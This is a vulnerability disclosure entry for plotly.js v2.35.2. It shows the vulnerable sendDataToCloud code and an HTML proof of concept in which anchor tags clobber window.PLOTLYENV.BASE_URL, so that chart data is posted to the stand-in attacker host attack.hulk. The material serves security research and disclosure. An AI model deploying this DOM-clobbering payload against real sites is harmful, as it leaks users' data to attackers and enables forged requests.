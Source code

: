 ## plotly.js

### Meta

+ Library: plotly.js
+ Stars: 16.9K
+ Version: v2.35.2
+ Fingerprint: `window.PLOTLYENV  !== undefined`
+ Payload: ```<a id="PLOTLYENV"></a><a id="PLOTLYENV" name="BASE_URL" href="https://attack.hulk/?a="></a>```
+ Impact: CSRF
+ CVE: N/A
+ Status: Reported
+ Security Policy: Email
+ Foundby: TheHulk

### Library

https://github.com/plotly/plotly.js

### Vulnerable Code Snippet

```javascript
plots.sendDataToCloud = function(gd) {
    var baseUrl = (window.PLOTLYENV || {}).BASE_URL || gd._context.plotlyServerURL;
    if(!baseUrl) return;

    gd.emit('plotly_beforeexport');

    var hiddenformDiv = d3.select(gd)
        .append('div')
        .attr('id', 'hiddenform')
        .style('display', 'none');

    var hiddenform = hiddenformDiv
        .append('form')
        .attr({
            action: baseUrl + '/external',
            method: 'post',
            target: '_blank'
        });

    var hiddenformInput = hiddenform
        .append('input')
        .attr({
            type: 'text',
            name: 'data'
        });

    hiddenformInput.node().value = plots.graphJson(gd, false, 'keepdata');
    hiddenform.node().submit();
    hiddenformDiv.remove();

    gd.emit('plotly_afterexport');
    return false;
};
```

## PoC

```html
<!--Library-->
<div id="gd"></div>
<script src="https://cdn.plot.ly/plotly-2.35.2.min.js" charset="utf-8"></script>
<script>
    Plotly.newPlot("gd", /* JSON object */ {
        "data": [{ "y": [1, 2, 3] }],
        "layout": { "width": 600, "height": 400}
    })
    Plotly.Plots.sendDataToCloud(gd);
</script>
<!--Library-->

<!--Payload-->
<a id="PLOTLYENV" href="https://attack.hulk/?a="></a>
<a id="PLOTLYENV" name="BASE_URL" href="https://attack.hulk/?a="></a>
<!--Payload-->
```